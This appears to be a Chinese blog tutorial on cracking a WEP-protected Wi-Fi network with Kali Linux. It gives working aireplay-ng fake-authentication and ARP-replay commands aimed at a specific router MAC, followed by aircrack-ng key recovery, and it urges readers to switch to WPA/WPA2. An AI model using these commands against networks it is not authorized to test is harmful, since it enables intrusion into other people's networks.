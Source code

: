 ```yaml
---
layout: post
title: Kali Linux破解wifi密码(WEP)
---
```


WEP是无线路由器最初广泛使用的一种加密方式，这种加密方式非常容易被破解。

目前很少有人使用wep加密方式，但是还是会有。

建议：使用WPA/WPA2做为加密方式。

抓包和“破解wpa/wpa2”方法一样，参考其中的前4步；

* [Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](http://topspeedsnail.com/kali-linux-crack-wifi-wpa/)

### 5) 加快Beacons和Data数据的收集速度

和破解WPA/WPA2不同的是，它只要抓取到足够的Beacons和Data数据就可以破解，理想情况下是100000+。你可以等，也可以使用aireplay加快这个进程。

{% highlight shell %}
# aireplay-ng -1 0 -a C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

{% highlight shell %}
# aireplay-ng -3 -b C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

等到抓取的数据充足，Ctrl+C停止。

### 5) 开始破解：

{% highlight shell %}
# aircrack-ng ~/*.cap
{% endhighlight %}

最后，不要忘了结束无线网卡的监控模式了：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

*****

总结：避免使用WEP加密方式。